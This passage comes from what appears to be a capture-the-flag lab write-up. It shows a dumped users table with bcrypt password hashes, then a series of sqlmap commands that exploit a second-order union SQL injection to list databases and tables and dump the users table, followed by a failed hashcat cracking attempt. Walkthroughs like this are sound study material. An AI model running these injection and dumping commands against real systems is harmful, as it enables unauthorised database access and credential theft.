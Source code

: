 ```
Mrs. Rhianna Hahn DDS:sierra.russel@example.com:0:$2y$10$0aYgz4DMuXe1gm5/aT.gTe0kgiEKO1xf/7ank4EW1s6ISt1Khs8Ma:food,travel,nature
Viola Vandervort DVM:ferry.erling@example.com:0:$2y$10$iGDL/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa:food,travel,nature
Prof. Margret Von Jr.:beryl68@example.org:0:$2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa:food,travel,nature
Florence Crona:ellie.moore@example.net:0:$2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy:food,travel,nature
Tod Casper:littel.blair@example.org:0:$2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou:food,travel,nature
```
I’ll note the top two, steve and greg, have the “admin” attribute set to 1.

Or we can use sqlmap to automatic do that
The sqlmap syntax has updated over the last five years since Nightmare. --second-order is deprecated in favor of --second-req. I’ll give it --tamper=space2comment (sqlmap will fail without this for the reasons seen above, but it will also suggest trying this tamper). I’ll also give it --technique=U to limit to union injections. It will find the union without this, but it’ll go faster since I know this is possible. I will need to increase the --level 5, which is the max. With all of this, it finds the injection:  
```
sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5
```

I’ll add --dbs to the end and it prints the two db names:
```
sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 --dbs
```

Replacing --dbs with -D intentions --tables will list the tables in intentions:
```
sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 -D intentions --tables
```

Replacing --tables with -T users --dump will dump that table:
```
sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 -D intentions -T users --dump                              
```

I’ll fire up hashcat on my system with these hashes, but after five minutes, none have cracked, and progress is moving very slowly as these are Bcrypt hashes. This doesn’t seem the be the way.

 I noted above the text in admin.js that mentioned the new v2 login API endpoint that did the hashing client-side so that user passwords aren’t submitted in the clear. I could enumerate the entire v2 API, but I’ll start with seeing if there’s a login function in the same place as v1.